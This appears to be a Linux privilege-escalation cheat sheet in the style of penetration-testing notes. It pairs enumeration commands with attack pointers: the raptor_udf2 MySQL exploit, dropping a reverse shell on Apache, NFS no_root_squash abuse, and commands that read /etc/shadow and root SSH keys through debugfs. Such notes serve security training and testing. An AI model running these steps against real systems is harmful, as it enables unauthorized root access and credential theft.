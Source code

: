 Can I access services that are running as root on the local network?

```shell
netstat -antup
ps -aux | grep root
```

| Network Services Running as Root      | Exploit actions                                                                     |
|---------------------------------------|-------------------------------------------------------------------------------------|
| mysql                                 | raptor_udf2 exploit <br> 0xdeadbeef.info/exploits/raptor_udf2.c <br> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));                   |
| apache            | drop a reverse shell script on to the webserver                                     |
| nfs             | no_root_squash parameter <br> Or <br> if you create the same user name and matching user id as the remote share you can gain access to the files and write new files to the share  |
| PostgreSQL                            | <https://www.exploit-db.com/exploits/45184/>                                          |

Are there any active tmux sessions we can connect to? `tmux ls`

## What can we READ?

What files and folders are in my home user's directory? `ls -la ~`
Do any users have passwords stored in the passwd file? `cat /etc/passwd`
Are there passwords for other users or RSA keys for SSHing into the box? `ssh -i id_rsa root@10.10.10.10`

Are there configuration files that contain credentials?

| Application and config file           | Config File Contents                                                                |
|---------------------------------------|-------------------------------------------------------------------------------------|
| WolfCMS <br> config.php               | // Database settings: <br> define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306'); <br> define('DB_USER', 'root'); <br> define('DB_PASS', 'john@123');<br>        |
| Generic PHP Web App                   | define('DB_PASSWORD', 's3cret');                                                     |
| .ssh directory           | authorized_keys <br> id_rsa <br> id_rsa.keystore <br> id_rsa.pub <br> known_hosts            |
| User MySQL Info                 | .mysql_history <br> .my.cnf                     |
| User Bash History                  | .bash_history                                      |

Are any of the discovered credentials being reused by multiple acccounts?
  `sudo - username`
  `sudo -s`

Are there any Cron Jobs Running? `cat /etc/crontab`

What files have been modified most recently?

  ```shell
  find /etc -type f -printf '%TY-%Tm-%Td %TT %p\n' | sort -r
  find /home -type f -mmin -60
  find / -type f -mtime -2
  ```

Is the user a member of the Disk group and can we read the contents of the file system?
  
  ```shell
  debugfs /dev/sda
  debugfs: cat /root/.ssh/id_rsa
  debugfs: cat /etc/shadow
  ```
